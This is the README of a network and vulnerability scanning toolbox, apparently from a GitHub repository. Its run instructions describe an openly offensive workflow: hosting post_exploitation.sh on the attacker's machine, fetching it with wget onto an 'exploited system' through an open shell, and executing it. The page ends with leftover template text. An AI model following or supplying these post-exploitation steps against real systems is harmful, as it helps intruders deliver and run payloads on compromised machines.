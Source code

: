 # Security Analysis Toolbox

## Overview
This toolbox is designed to provide comprehensive tools for network and vulnerability analysis, as well as password security assessment. It aims to help security professionals and IT administrators to efficiently manage and assess security across their networks.

## Features

### Network Analysis
- **Network Discovery**: Discover all devices connected to the network.
- **Port Scanning**: Analyze open ports to identify potential vulnerabilities.
- **Device Detection**: Detect all devices connected to the network and their status.

### Vulnerability Analysis
- **Vulnerability Scanner**: Scan systems for known vulnerabilities to mitigate potential threats.
- **Advanced Scanning**: Conduct in-depth scans to uncover and assess deeper system vulnerabilities.

### Password Security Analysis
- **Brute Force Attack Resistance Test**: Test the strength of passwords against common brute-force methods.

## Installation
To set up the Security Analysis Toolbox, clone this repository and install the required dependencies:

# How to RUN the Project

RUN main.py on command line with a command as shown below:

To deploy this project run

```bash
  python main.py IP-Address --start-port 1 --end-port 40 
```
After the shell is opened follow these instructions

1-> Open a command terminal on your PC where the post_explotation.sh file is located and run 'pyhton -m http.server' to host the file

2-> Now on the shell run 'wget http://Your-IP-Address:8000/post_exploitation.sh', it will transfer the file in the exploited system

3-> Confirm that the file has been transferred using 'ls; command 

4-> Now run chmod +x post_exploitation

5-> Now run ./post_exploitation


and it will output the python vulnerabilities scripts.





Follow the on-screen menus to select the type of analysis you wish to perform.

## Contributing
Contributions to this project are welcome. Please fork the repository and submit a pull request.

## License
This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Contact
For support or any questions, email us at support@example.com.


This README provides a concise yet comprehensive guide to your toolbox, outlining its features, installation instructions, usage guide, and ways to contribute. Adjust the content according to your actual setup and repository details.






